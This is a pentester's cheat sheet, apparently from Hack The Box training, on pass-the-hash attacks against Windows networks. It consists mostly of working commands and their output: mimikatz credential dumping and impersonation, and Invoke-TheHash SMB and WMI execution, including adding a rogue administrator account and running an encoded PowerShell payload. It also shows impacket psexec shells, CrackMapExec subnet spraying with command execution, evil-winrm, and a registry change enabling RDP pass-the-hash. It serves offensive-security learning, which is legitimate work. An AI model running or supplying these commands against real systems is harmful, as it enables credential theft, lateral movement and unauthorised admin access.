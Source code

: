 #windows/auth/pass-the-hash
#linux/auth/pass-the-hash
# Windows NTLM
Legacy SSO mechanism. We can use NTLM hash for PtH.

https://github.com/gentilkiwi/mimikatz

# PtH with mimikatz
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
* /user - The user name we want to impersonate.
* /rc4 or /NTLM - NTLM hash of the user's password.
* /domain - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* /run - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

#### Extract hashes from an admin account of other users
```powershell
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```
	
# PtH with Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash

## SMB
```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```
## WMI
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <base64 payload>"

[+] Command executed with process id 520 on DC01
```

# PtH with Impacket
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
Another Impacket tools:
* impacket-wmiexec
* impacket-atexec
* impacket-smbexec

# PtH with #CrackMapExec
cme is a tool for password spraying on AD.

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add --local-auth to our command

 If we see Pwn3d!, it means that the user is a local administrator on the target computer. We can use the option -x to execute commands.
### Command execution
```bash
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

SMB         10.129.201.126  445    MS01            [*] Windows 10 Enterprise 10240 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.201.126  445    MS01            [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.201.126  445    MS01            [+] Executed command 
SMB         10.129.201.126  445    MS01            MS01\administrator
```

# PtH with evil-winrm
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

# PtH with [[RDP]]
Enable Restricted Admin Mode to Allow PtH:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Connect:
```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

# UAC Limits Pass the Hash for Local Accounts
When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.
